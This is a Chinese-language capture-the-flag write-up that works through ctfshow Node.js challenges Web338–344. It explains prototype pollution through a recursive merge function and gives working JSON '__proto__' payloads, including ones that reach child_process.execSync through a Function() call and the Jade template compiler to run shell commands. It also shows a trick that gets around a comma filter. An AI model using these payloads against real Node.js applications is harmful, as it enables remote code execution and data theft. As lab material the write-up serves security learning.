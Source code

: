 # 写在前面

图片如果不是科学上网，可能由于网速原因看不见，如果需要看图可以点击图片链接

# Web338

首先从入口文件看起，`app.js`，发现两个关键路径

```javascript
app.use('/', indexRouter);
app.use('/login', loginRouter);
```

当然主页就不用看了，直接看关键部分，login，从当中我们不难得出需要让`secert.ctfshow==='36dboy'`即可获取flag，这里很简单，原型链污染嘛

```javascript
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  } 
});
```

其中涉及到这一部分的利用函数就是`copy`，这是一个递归调用函数，for循环遍历object2当中的key(键)，如果这个键在object1与object2当中都存在，则调用`copy(object1[key], object2[key])`,否则让`object1[key] = object2[key]`

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

那如果我们让`object2`为`{"__proto__":{"ctfshow":"36dboy"}}`会发生什么（注意本题当中object1为secret变量）

由于`object1和object2`的对象都具有属性`__proto__`,进入if语句为true，执行

`copy(object1[__proto__], object2[__proto__])`

此时`let key in object2`的`key`为`ctfshow`很明显object1当中没有，所以进入else部分

`object1[ctfshow] = object2[ctfshow]`，成功赋值为`36dboy`

Burpsuite发送请求包即可获取flag

```
POST /login HTTP/1.1
Host: 4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Content-Length: 34
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Content-Type: application/json
Origin: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Referer: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176b20985423e8-07d414625df175-3323765-144000-176b209854358f
Connection: close

{"__proto__":{"ctfshow":"36dboy"}}
```



# Web339

这道题开始麻烦起来了，先来分析思路，首先列出本题利用所需要的关键代码

首先是login.js

```
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

之后是api.js

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});
module.exports = router;
```

我们发现在api.js当中`Function里的query变量没有被引用`，如果我们能够通过原型污染攻击给它赋任意我们想要的值会怎样？？岂不是可以随意执行代码进行RCE了

首先给出我的payload吧，当然嫌麻烦的话里面可以搞成反弹shell的，看自己

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('cat routes/login.js');"}}
```

通过调试我发现污染到了this,在nodejs当中其指向module.exports，最外层调用的时候会指向global，具体原因还不知道，未来希望能够破解，暂时水平受限，反正看到query到了全局变量里面

![CTFSHOW-WEB339](./pic/CTFSHOW-WEB339.png)

之后我们前往`url/api`界面发起post包即可获得flag

# Web342-343

这是我的exp，过程不讲自己研究

```php

{"__proto__":{"__proto__": {"type":"Code","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );jade_debug.unshift(new jade.DebugItem(0"}}}

{"__proto__":{"__proto__": {"type":"MixinBlock","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );//"}}}

{"__proto__":{"__proto__": {"type":"Doctype","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('whoami', function(){} );//"}}}

{"__proto__":{"__proto__": {"type":"Doctype","compileDebug":1,"self":1,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('calc');//"}}}
```



# Web344

代码审计，需要query当中的name，password与isVIP符合条件，本来传入`query={"name":"admin","password":"ctfshow","isVIP":true}`即可但是这道题过滤了2c也就过滤了`%2c(逗号)`(req.url获取的值是url编码后的所以逗号会变成%2c)

```
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }
});
```

Nodejs的一个小特性吧，这样他会把三个部分拼接在一起，这样也就满足了题目的条件也得到了flag

```
由于"的url编码为%22与c又合成了2c所以c需要编码
query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

